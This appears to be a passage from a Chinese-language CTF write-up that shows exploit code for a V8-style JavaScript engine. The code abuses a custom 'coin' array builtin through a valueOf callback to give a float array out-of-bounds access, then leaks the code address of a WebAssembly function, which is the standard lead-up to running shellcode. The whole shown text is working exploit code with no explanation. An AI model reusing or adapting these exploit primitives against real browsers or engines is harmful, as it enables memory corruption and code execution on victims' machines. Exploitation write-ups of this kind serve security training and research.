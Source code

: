 

### exp代码

```javascript

var buf = new ArrayBuffer(16);
var float64 = new Float64Array(buf);
var bigUint64 = new BigUint64Array(buf);

function f2i(f)
{
	float64[0] = f;
	return bigUint64[0];
}

function i2f(i)
{
	bigUint64[0] = i;
	return float64[0];
}

function hex(i)
{
	return i.toString(16).padStart(16, "0");
}

var val = {
	valueOf:function(){
		array.length = 0x100;
		return 0x400;
	}
}

//----- modify the length of float_array to oob 
var array = new Array(30);
float_array = [1.1, 2.2];
array.coin(34, val);
console.log("[+] float_array length is : "+ float_array.length);


//-----  find wasm_code_addr 
var wasmCode = new Uint8Array([0,97,115,109,1,0,0,0,1,133,128,128,128,0,1,96,0,1,127,3,130,128,128,128,0,1,0,4,132,128,128,128,0,1,112,0,0,5,131,128,128,128,0,1,0,1,6,129,128,128,128,0,0,7,145,128,128,128,0,2,6,109,101,109,111,114,121,2,0,4,109,97,105,110,0,0,10,138,128,128,128,0,1,132,128,128,128,0,0,65,42,11]);

var wasmModule = new WebAssembly.Module(wasmCode);
var wasmInstance = new WebAssembly.Instance(wasmModule, {});
var wasm_function = wasmInstance.exports.main;

var obj = {mark: 1111222233334444, obj: wasm_function};

var float_obj_idx = 0;
for(let i=0; i < 0x400; i++)
{
	if(f2i(float_array[i]) == 0x430f9534b3e01560n){
		float_obj_idx = i + 1;
		console.log("[+] find wasm_function obj : 0x" + hex(f2i(float_array[float_obj_idx])));
		break;
	}
}

var wasm_code_addr = f2i(float_array[float_obj_idx]) - 0x171n;
```